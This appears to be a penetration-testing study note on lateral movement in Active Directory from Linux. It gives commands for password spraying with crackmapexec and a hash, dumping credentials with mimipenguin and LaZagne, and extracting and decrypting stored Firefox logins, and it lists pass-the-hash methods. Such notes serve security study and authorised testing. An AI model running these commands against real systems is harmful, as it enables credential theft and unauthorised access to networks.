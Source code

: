 ```yaml
---
title: Lateral Movement in Active Directory from Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
```

# Lateral Movement in Active Directory from Linux

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)



##  Spraying password technique in the domain with crackmapexec

```
# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```

**This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth.** 

## Attacking SAM 

If we have a foothold in the target machine, we can retrieve other credentials existing in the host memory:

[See Attacking sam](attacking-sam.md)


## Memory and cache: mimipenguin, lazagne and Firefox_decrypt

Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused. 

[mimipenguin](https://github.com/huntergregal/mimipenguin)

```shell-session
sudo python3 mimipenguin.py
```


[lazagne](https://github.com/AlessandroZ/LaZagne)

```shell-session
sudo python2.7 laZagne.py all

# And browsers:
sudo python3 laZagne.py browsers

```

Firefox stored credentials:

```bash
ls -l .mozilla/firefox/ | grep default 

cat .mozilla/firefox/xxxxxxxxx-xxxxxxxxxx/logins.json | jq .
```

The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.

```
git clone https://github.com/unode/firefox_decrypt.git   
cd firefox_decrypt 
python firefox_decrypt.py
```


## Pass the Hash (PtH)

A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication.

- Pass the Hash with Mimikatz (Windows)
- Pass the Hash with PowerShell Invoke-TheHash (Windows)
- Pass the Hash with Impacket (Linux)
- Pass the Hash with CrackMapExec (Linux)
- Pass the Hash with evil-winrm (Linux)
- Pass the Hash with RDP (Linux)
- UAC Limits Pass the Hash for Local Accounts

[See Pass the Hash](pass-the-hash.md).
